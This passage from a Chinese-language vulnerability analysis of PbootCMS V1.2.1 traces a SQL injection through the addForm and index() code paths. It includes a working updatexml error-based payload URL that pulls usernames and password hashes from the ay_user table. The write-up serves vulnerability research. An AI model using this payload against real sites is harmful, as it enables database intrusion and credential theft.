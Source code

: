 然后就会带入 `$this->model->addForm($value->table_name, $data)` 执行语句

路径：PbootCMS-V1.2.1\apps\home\model\ParserModel.php


```bash
public function addForm($table, $data)
{
    return parent::table($table)->insert($data);
}
```

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key 带入数据库查询引发注入.

### 0X01.3 前台首页注入

0x08.3.1 漏洞演示

url:


```bash
http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123
```

![](images/15892007216548.png)


0x01.3.2 漏洞解读

文件地址：PbootCMS-V1.2.1\apps\home\controller\ParserController.php

方法：index(


```php
// 首页 骚操作 注入
    // parserAfter -> parserSpecifyListLabel
    public function index()
    {
        $content = parent::parser('index.html'); // 框架标签解析
        $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
        $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
        $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
        $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
        $this->cache($content, true);
    }
```

文件地址：apps\home\controller\ParserController.php

方法：parserAfter()

跟进 `$content = $this->parser->parserAfter($content);` 这个方法

